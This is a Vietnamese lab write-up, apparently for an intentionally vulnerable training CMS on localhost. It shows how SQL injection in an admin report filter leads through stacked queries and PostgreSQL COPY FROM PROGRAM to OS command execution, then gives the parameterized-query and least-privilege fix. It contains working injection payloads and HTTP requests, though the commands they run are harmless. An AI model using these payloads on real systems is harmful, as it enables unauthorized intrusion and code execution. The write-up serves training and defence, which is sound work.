


## Hướng 3. PostgreSQL COPY FROM PROGRAM RCE

### Mô tả

BlueMarket CMS có khu vực admin dùng để xem system reports:

```text
Route: /admin/reports?type=health
User: admin / admin123
Feature: System Reports
```

Admin có thể lọc report theo parameter `type`. Backend dùng parameter này để query bảng `report_templates`.

Điểm lỗi nằm ở:

```text
app/src/Controllers/ReportController.php
```

Code vulnerable:

```php
$sql = "SELECT type, label, description, query_name
        FROM report_templates
        WHERE type = '" . $type . "'
        ORDER BY id";
$templates = $db->queryAll($sql);
```

Connection của report cũng được chọn theo mode:

```php
$db = new PostgresService($this->isFixed() ? 'app' : 'report');
```

Trong vulnerable mode, `report` ánh xạ tới `report_user`. Vì role này có
`pg_execute_server_program`, một SQLi đã xác nhận còn có thể đi tới
`COPY FROM PROGRAM`.

#### Phân tích source và điều kiện cần

Flow trong `ReportController::system()`:

```text
GET /admin/reports?type=health
-> requireAdmin() kiểm tra session role
-> tạo PostgresService('report') trong vulnerable mode
-> ghép type vào query report_templates
-> queryAll() gọi pg_query()
-> readCommandOutput() đọc report_worker_output nếu bảng tồn tại
-> view admin/reports.php hiển thị Worker Output
```

Các đoạn source tạo nên chain:

```php
$this->requireAdmin();
$db = new PostgresService($this->isFixed() ? 'app' : 'report');

$sql = "SELECT type, label, description, query_name
        FROM report_templates
        WHERE type = '" . $type . "'
        ORDER BY id";
$templates = $db->queryAll($sql);
```

Sau khi query chạy, ứng dụng chủ động đọc bảng output:

```php
if (!$db->tableExists('report_worker_output')) {
    return [];
}

return $db->queryAll(
    'SELECT line FROM report_worker_output ORDER BY id DESC LIMIT 50'
);
```

Đây là bảng log worker được tạo sẵn cùng schema ứng dụng, không phải bảng do
payload tạo ra. Vì vậy `COPY FROM PROGRAM` không cần trả output trực tiếp về
HTTP: nó ghi output vào log worker, rồi request Reports kế tiếp hiển thị các
dòng mới nhất.

Schema của log worker trong `postgres/init.sql`:

```sql
CREATE TABLE report_worker_output (
    id BIGSERIAL PRIMARY KEY,
    line TEXT NOT NULL,
    created_at TIMESTAMP NOT NULL DEFAULT CURRENT_TIMESTAMP
);
```

`COPY report_worker_output(line) ...` chỉ nạp dữ liệu vào cột `line`; PostgreSQL
tự cấp `id` và `created_at` bằng giá trị mặc định. Đây là lý do payload không
cần biết hoặc tự chèn các cột metadata của worker.

Chain chỉ thực hiện được khi các điều kiện sau cùng đúng:

```text
1. Có session admin để vượt qua requireAdmin().
2. APP_MODE=vulnerable để type được ghép trực tiếp vào SQL.
3. pg_query() cho phép stacked query trong request report.
4. Connection report dùng role report_user.
5. report_user được grant pg_execute_server_program.
6. PostgreSQL cho phép command và container có lệnh id/whoami/pwd.
7. report_user có quyền ghi vào bảng log worker đã tồn tại.
```

Fixed mode dùng `pg_query_params()` với `type = $1` và role `app_user`, nên
input chỉ được dùng làm giá trị lọc và không thể trở thành `COPY` statement.

Với request bình thường `GET /admin/reports?type=health`, query thực tế là:

```sql
SELECT type, label, description, query_name
FROM report_templates
WHERE type = 'health'
ORDER BY id
```

Như vậy `type` chỉ nằm trong một string literal. Muốn chèn câu lệnh mới, ta
phải đóng string đó bằng dấu `'`, kết thúc statement bằng `;`, rồi mới thêm
statement tiếp theo.

Chain khai thác:

```text
SQL Injection trong /admin/reports?type=
-> stacked query
-> COPY report_worker_output(line) FROM PROGRAM '<command>'
-> command output được ghi vào log worker có sẵn
-> trang Reports đọc report_worker_output và hiển thị output
-> RCE dưới quyền postgres
```

### Phân tích và khai thác

Đăng nhập admin:

```http
POST /login HTTP/1.1
Host: localhost:5000
Content-Type: application/x-www-form-urlencoded

username=admin&password=admin123
```

Sau đó mở trang reports:

```http
GET /admin/reports?type=health HTTP/1.1
Host: localhost:5000
Cookie: PHPSESSID=<admin_session>
```

Thử SQLi cơ bản bằng dấu `'`:

**Source tại bước này:** `$_GET['type']` được gán vào `$type`, sau đó đi vào
`WHERE type = '" . $type . "'` trong nhánh vulnerable trước khi gọi
`queryAll()`. Dấu nháy đơn chỉ nhằm làm query hỏng để xác nhận điểm nối.

```http
GET /admin/reports?type=' HTTP/1.1
Host: localhost:5000
Cookie: PHPSESSID=<admin_session>
```

Query bị vỡ:

```sql
SELECT type, label, description, query_name
FROM report_templates
WHERE type = '''
ORDER BY id
```

Ở đây query gốc đã có một dấu `'` trước giá trị `type` và một dấu `'` sau nó.
Payload `type='` thêm một dấu nữa, nên PostgreSQL nhìn thấy chuỗi chưa được
đóng đúng và trả syntax error. Đây chỉ là bước xác nhận điểm chèn, chưa phải
payload thực thi lệnh hệ điều hành.



response hiển thị lỗi PostgreSQL, ta xác nhận được `type` được nối trực tiếp vào SQL.

Trước khi thử stacked query, kiểm tra một điều kiện boolean đơn giản:

**Source tại bước này:** source đã mở string trước `$type` và sẽ nối dấu nháy
đóng sau nó. Payload `health' OR ...` đóng string rồi đưa điều kiện mới vào
cùng `WHERE`, nhưng chưa thêm statement thứ hai.

```sql
health' OR '1'='1
```

Sau khi nối vào source, query trở thành:

```sql
SELECT type, label, description, query_name
FROM report_templates
WHERE type = 'health' OR '1'='1'
ORDER BY id
```

Điều kiện `'1'='1'` luôn đúng nên trang có thể trả toàn bộ report template.
Bước này chỉ chứng minh ta đã thoát khỏi chuỗi `type`; chưa có statement mới
được chạy.

Từ đây payload dùng chung một khung:

```text
health'; <statement cần test>; SELECT type, label, description, query_name FROM report_templates WHERE '1'='1
```

Khi source ghép payload vào query gốc, PostgreSQL nhận được dạng:

```sql
SELECT type, label, description, query_name
FROM report_templates
WHERE type = 'health';
<statement cần test>;
SELECT type, label, description, query_name
FROM report_templates
WHERE '1'='1'
ORDER BY id
```

- `health'` đóng chuỗi `type` mà source đã mở.
- Dấu `;` cho phép chạy statement tiếp theo.
- `SELECT ... WHERE '1'='1` là câu cuối để nhận phần `' ORDER BY id` còn lại
  của source.

Mỗi payload bên dưới được gửi bằng request:

```http
GET /admin/reports?type=<URL_ENCODED_PAYLOAD> HTTP/1.1
Host: localhost:5000
Cookie: PHPSESSID=<admin_session>
```

Sau mỗi payload, mở lại `/admin/reports?type=health` để xem output mới trước
khi chuyển sang bước tiếp theo.

#### Bước 1: ghi marker vào worker log có sẵn

Bảng `report_worker_output` đã được tạo khi khởi tạo database. Payload đầu tiên
chỉ ghi một marker cố định, chưa chạy command hệ điều hành:

**Source tại bước này:** `ReportController::system()` gọi `queryAll($sql)`, nên
statement chèn sau dấu `;` được PostgreSQL xử lý tiếp. `report_worker_output`
là bảng log có sẵn và `report_user` có quyền `INSERT`, nên marker này là bài
test stacked query gọn nhất.

```sql
health'; INSERT INTO report_worker_output(line) VALUES ('stacked query works'); SELECT type, label, description, query_name FROM report_templates WHERE '1'='1
```

Query PostgreSQL nhận được:

```sql
SELECT type, label, description, query_name
FROM report_templates
WHERE type = 'health';
INSERT INTO report_worker_output(line) VALUES ('stacked query works');
SELECT type, label, description, query_name
FROM report_templates
WHERE '1'='1'
ORDER BY id
```

Nếu request không lỗi, ta đã xác nhận role report ghi được vào output sink có
sẵn. Không có `CREATE TABLE` trong payload này.

#### Bước 2: xác nhận marker trên giao diện

Mở lại `/admin/reports?type=health`. Controller gọi:

```sql
SELECT line
FROM report_worker_output
ORDER BY id DESC
LIMIT 50
```

Nếu `Worker Output` hiện `stacked query works`, ta đã chứng minh stacked query
bằng một thao tác vô hại và xác nhận được output channel của nghiệp vụ.



#### Bước 3: chạy command bằng COPY FROM PROGRAM

Ở bước này output sink đã được kiểm chứng. Ta chỉ thay `INSERT marker` bằng
`COPY FROM PROGRAM`:

**Source tại bước này:** đường đi trong PHP không đổi, vẫn là `queryAll($sql)`.
Điểm khác là PostgreSQL primitive: `COPY ... FROM PROGRAM` chạy command bằng
process database rồi ghi stdout vào `report_worker_output`.

```sql
health'; COPY report_worker_output(line) FROM PROGRAM 'id'; SELECT type, label, description, query_name FROM report_templates WHERE '1'='1
```

Payload được mở rộng từng mảnh:

```text
health'                                      đóng chuỗi type
COPY report_worker_output(line) FROM PROGRAM 'id';
                                             chạy id và ghi output vào log có sẵn
SELECT ... WHERE '1'='1                      giữ query cuối hợp lệ
```

Query PostgreSQL thực thi là:

```sql
SELECT type, label, description, query_name
FROM report_templates
WHERE type = 'health';
COPY report_worker_output(line) FROM PROGRAM 'id';
SELECT type, label, description, query_name
FROM report_templates
WHERE '1'='1'
ORDER BY id
```

`COPY ... FROM PROGRAM 'id'` yêu cầu PostgreSQL chạy `id` trong container
database. Output được ghi vào `report_worker_output`; sau đó
`readCommandOutput()` đọc bảng này và view Reports hiển thị lại. SQLi là đường
đưa statement tới database, còn `pg_execute_server_program` là quyền biến nó
thành RCE.

Kết quả mong đợi trong `Worker Output`:

```text
uid=999(postgres) gid=999(postgres) groups=999(postgres)
```

Có thể đổi command thành các lệnh an toàn khác để chứng minh RCE:

**Source tại các payload biến thể:** không thay đổi đường đi trong source;
chỉ thay chuỗi command truyền cho `COPY ... FROM PROGRAM`. Controller vẫn đọc
những dòng mới nhất từ `report_worker_output`.

```sql
health'; COPY report_worker_output(line) FROM PROGRAM 'whoami'; SELECT type, label, description, query_name FROM report_templates WHERE '1'='1
```

```sql
health'; COPY report_worker_output(line) FROM PROGRAM 'hostname'; SELECT type, label, description, query_name FROM report_templates WHERE '1'='1
```

```sql
health'; COPY report_worker_output(line) FROM PROGRAM 'pwd'; SELECT type, label, description, query_name FROM report_templates WHERE '1'='1
```

Mỗi lần gửi payload xong, mở lại `/admin/reports?type=health` để xem output mới.

Sau khi demo xong, xóa các dòng test trong worker log:

```powershell
docker compose exec postgres psql -U postgres -d bluemarket -c "DELETE FROM report_worker_output;"
```


### Root cause

Lỗi chính là report filter nối trực tiếp parameter `type` vào SQL:

```text
1. Admin kiểm soát parameter type.
2. type được nối vào SQL bằng string concatenation.
3. SQLi cho phép stacked query.
4. Query chạy bằng report_user.
5. report_user có quyền pg_execute_server_program.
6. COPY FROM PROGRAM cho phép PostgreSQL chạy OS command.
7. Output được ghi vào worker log có sẵn và hiển thị lại trên web.
```

Trong fixed mode, code dùng parameterized query:

```php
$templates = $db->params(
    'SELECT type, label, description, query_name
     FROM report_templates
     WHERE type = $1
     ORDER BY id',
    [$type]
);
```

Fixed mode cũng dùng `app_user`, không có quyền `pg_execute_server_program`.

Tóm tắt root cause:

```text
1. SQL Injection do nối chuỗi.
2. Database user của report có quyền quá cao.
3. Cấp pg_execute_server_program cho role có thể bị user input chạm tới.
4. App hiển thị lại output từ worker log mà role report có quyền ghi.
5. Thiếu least privilege cho chức năng report.
```
